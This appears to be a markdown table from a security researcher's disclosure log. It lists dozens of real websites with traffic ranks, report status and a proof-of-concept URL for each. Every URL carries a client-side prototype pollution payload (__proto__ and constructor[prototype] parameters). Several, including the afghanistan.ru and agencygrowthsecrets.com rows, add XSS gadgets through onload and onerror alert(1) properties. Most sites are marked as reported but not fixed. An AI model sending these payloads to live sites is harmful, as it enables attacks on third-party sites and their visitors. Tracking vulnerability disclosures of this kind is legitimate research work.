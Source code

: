 |acaai.org|16380|URL search|-|Reported|`https://acaai.org/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|academhelpers.com|395064|URL search|-|Reported|`https://academhelpers.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|academictransfer.com|179474|URL search|, Cookie-M|Reported|`https://academictransfer.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|accengage.com|46165|URL search|, URL-M|Reported|`https://www.airship.com/app-experience-platform/in-app-experiences/message-center/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|access.ly|781119|URL search|, Cookie-M|Reported|`http://freeddns.noip.com/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv&d=access.ly&u=YWNjZXNzLmx5Lz9fX3Byb3RvX19bOTg3NjVdPXRlc3R2Jl9fcHJvdG9fXy45ODc2NT10ZXN0diZjb25zdHJ1Y3Rvcltwcm90b3R5cGVdWzk4NzY1XT10ZXN0dg==`
|accessatlanta.com|37122|URL search|, URL-M|Reported|`https://accessatlanta.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|accessintel.com|263222|URL|-|Reported|`https://accessintel.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|achrnews.com|42640|URL|-|Reported|`https://achrnews.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|aclibrary.org|283945|URL search|-|Reported|`https://aclibrary.org/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|acls.com|413856|URL search|, Cookie-M, URL-M|Reported|`https://acls.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|actionnewsjax.com|18574|URL search|, URL-M|Reported|`https://actionnewsjax.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|acttheatre.org|469221|URL search|, XSS|Reported|`https://acttheatre.org/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|acuvue.ru|788439|URL search|-|Reported|`https://acuvue.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|acuvuevision.jp|289203|URL search|-|Reported|`https://acuvuevision.jp/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|ad.fr|15040|URL|-|Reported|`https://ad.fr/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|ad.ly|116608|URL|-|Reported|`https://ad.ly/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|additivemanufacturing.media|501900|URL|-|Reported|`https://additivemanufacturing.media/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|adhesivesmag.com|400964|URL|-|Reported|`https://adhesivesmag.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|admonsters.com|168183|URL|-|Reported|`https://admonsters.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|adobe-master.ru|622001|URL search|, Cookie-M|Reported|`https://adobe-master.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|adquick.com|361803|URL search|, Cookie-M, URL-M|Reported|`https://adquick.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|adventhealth.com|23463|URL search|, Cookie-M, URL-M|Reported|`https://adventhealth.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|adverity.com|117384|URL search|, Cookie-M|Reported|`https://www.adverity.com/use-cases/improve-marketing-performance/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|adways.net|213182|URL|-|Not|`https://adways.net/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|affiliatebootcamp.com|243615|URL search|, URL-M|Reported|`https://affiliatebootcamp.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|affise.com|22296|URL search|, Cookie-M, URL-M|Reported|`https://affise.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|afghanistan.ru|170256|URL search|-|Reported|`https://afghanistan.ru/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|aflac.com|22190|URL search|-|Reported|`https://aflac.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|africansafari.co.jp|587042|URL|-|Reported|`https://africansafari.co.jp/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|aftermarketnews.com|128233|URL|, URL-M|Not|`https://aftermarketnews.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|agencyaccess.com|698509|URL search|-|Reported|`https://agencyaccess.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|agencygrowthsecrets.com|931542|URL search|-|Fixed|`https://www.agencygrowthsecrets.com/ags-contact/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|agendor.com.br|71496|URL search|-|Reported|`https://www.agendor.com.br/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|agentstudio.com|602366|URL|-|Reported|`https://agentstudio.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|agriculture.com|20924|URL search|, URL-M|Reported|`https://agriculture.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|ai-cio.com|90420|URL|, URL-M|Not|`https://ai-cio.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|airbase.com|208846|URL search|-|Reported|`https://airbase.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`